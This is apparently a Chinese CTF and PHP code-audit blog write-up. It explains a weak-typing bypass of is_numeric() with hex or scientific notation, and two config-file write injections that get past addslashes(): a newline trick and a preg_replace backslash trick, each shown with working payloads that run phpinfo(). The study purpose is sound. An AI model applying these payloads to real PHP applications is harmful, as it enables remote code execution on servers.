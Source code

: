 ```yaml
---
title: PHP-Challenge-1
date: 2018-12-01 19:48:06
categories:
- Web安全
- CTF
tags:
- PHP代码审计
- 安全
- CTF
---
```


<!--more-->

# 0x01 弱类型

```php
<?php
show_source(__FILE__);
$flag = "xxxx";
if(isset($_GET['time'])){ 
        if(!is_numeric($_GET['time'])){ 
                echo 'The time must be number.'; 
        }else if($_GET['time'] < 60 * 60 * 24 * 30 * 2){ 	//5184000
                        echo 'This time is too short.'; 
        }else if($_GET['time'] > 60 * 60 * 24 * 30 * 3){ 	//7776000
                        echo 'This time is too long.'; 
        }else{ 
                sleep((int)$_GET['time']); 
                echo $flag; 
        } 
                echo '<hr>'; 
}
?>
```

程序逻辑大致如下： 

1. 通过**is_numeric**判断**time**是否为数字
2. 要求输入的**time**位于**5184000**和**7776000**之间
3. 将输入的**time**转换为**int**并传入**sleep()**函数

如果真的将传入的**time**设置为上述的区间，那么程序的**sleep()**函数将会让我们一直等。

这里运用到PHP弱类型的性质就可以解决，**is_numeric()**函数支持十六进制字符串和科学记数法型字符串，而**int**强制转换下，会出现错误解析。



> 5184000	  ->   0x4f1a00

因此第一种方法，我们可以传入**?time=0x4f1a01**

还有就是科学记数法类型的**?time=5.184001e6**，五秒钟还是可以等的。



# 0x02 配置文件写入问题

> index.php

```php
<?php
$str = addslashes($_GET['option']);
$file = file_get_contents('xxxxx/option.php');
$file = preg_replace('|\$option=\'.*\';|', "\$option='$str';", $file);
file_put_contents('xxxxx/option.php', $file);
```

> xxxxx/option.php

```php
<?php
$option='test';
?>
```

程序逻辑大致如下：

1. 将传入的**option**参数进行**addslashes()**字符串转义操作
2. 通过正则将**$file**中的**test**改为**$str**的值
3. 将修改后的值写入文件

这个问题是在p师傅的知识星球里面提出来的，CHY师傅整理出来的，这种情景通常出现在配置文件写入中。

### 方法一：换行符突破

> ```php
> ?option=aaa';%0aphpinfo();//
> ```

经过**addslashes()**处理过后，**$str = aaa\\';%0aphpinfo();//**

通过正则匹配过后写入文件，**option.php**的内容变为如下内容

```php
<?php 
$option='aaa\';
phpinfo();//';
?>
```

可以看出后一个单引号被转义，所以单引号并没有被闭合，那么**phpinfo**就不能执行，所以再进行一次写入。

> ?option=xxx

再次进行正则匹配时候，则会将引号里面的替换为**xxx**，此时**option.php**内容如下：

```php
<?php
$option='xxx';
phpinfo();//';
?>
```

这时候就可以执行**phpinfo**。



### 方法二：preg_replace()的转义

 ```php
 ?option=aaa\';phpinfo();//
 ```

**addslashes()**转换过后**$str = aaa\\\\\\';phpinfo();//**

经过**preg_replace()**匹配过后，会对**\\**进行转义处理，所以写入的信息如下：

```php
<?php
$option='aaa\\';phpinfo();//';
?>
```



# 总结

Reference：

> [http://www.cnblogs.com/iamstudy/articles/config_file_write_vue.html](http://www.cnblogs.com/iamstudy/articles/config_file_write_vue.html)
>
> P师傅知识星球

不断的学习